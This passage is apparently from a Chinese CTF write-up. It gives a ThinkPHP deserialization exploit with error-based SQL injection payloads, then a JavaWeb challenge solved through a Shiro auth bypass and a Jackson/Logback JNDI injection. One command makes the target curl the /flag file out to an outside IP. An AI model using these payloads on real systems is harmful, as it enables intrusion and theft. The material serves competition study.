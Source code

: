 ```php
            $this->data[$this->pk] = array(
//                "table" => "mysql.user where 1=(updatexml(1,concat(0x7e,(select(right(group_concat(schema_name),28))from(information_schema.schemata)),0x7e),1))#",  # 读到一个 test 数据库
//                "table" => "mysql.user where 1=(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema='test')),0x7e),1))#",  # flag,users
//                "table" => "mysql.user where 1=(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name='flag')),0x7e),1))#",  # flag
//                "table" => "mysql.user where 1=(updatexml(1,concat(0x7e,(select(group_concat(flag))from(test.flag)),0x7e),1))#",
                "table" => "mysql.user where 1=(updatexml(1,concat(0x7e,(select(right(group_concat(flag),30))from(test.flag)),0x7e),1))#",
                "where" => "1=1"
            );
        }
    }
}

namespace {
    echo base64_encode(serialize(new Think\Image\Driver\Imagick()));
}
```

## [红明谷CTF 2021]JavaWeb

看到 /login 界面, 尝试 post 东西上去, 发现 deleteMe 得知是 shrio

![20210410181413035](https://github.com/Ricky-369369/Rickyweb/blob/main/Nepnep/Probation/img/20210410181413035.png?raw=true)

/;/json 绕过鉴权访问 /json接⼝

![20210410182209298](https://github.com/Ricky-369369/Rickyweb/blob/main/Nepnep/Probation/img/20210410182209298.png?raw=true)

jackson反序列化，post Logback 反序列化链进行 JNDI 注入 

```
["ch.qos.logback.core.db.JNDIConnectionSource",{"jndiLocation":"ldap://ip:8013/#Exploit"}] 
```

用[工具]( https://github.com/welk1n/JNDI-Injection-Exploit )制作, 然后执行命令并监听

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "curl http://39.97.114.43:8888/ -d @/flag" -A "39.97.114.43"
```

向 /;/json POST传入一下信息

```
["ch.qos.logback.core.db.JNDIConnectionSource",{"jndiLocation":"rmi://39.97.114.43:1099/rsguep"}] 
```

![20210410212709257](https://github.com/Ricky-369369/Rickyweb/blob/main/Nepnep/Probation/img/20210410212709257.png?raw=true)

然后这边服务会收到响应传出命令
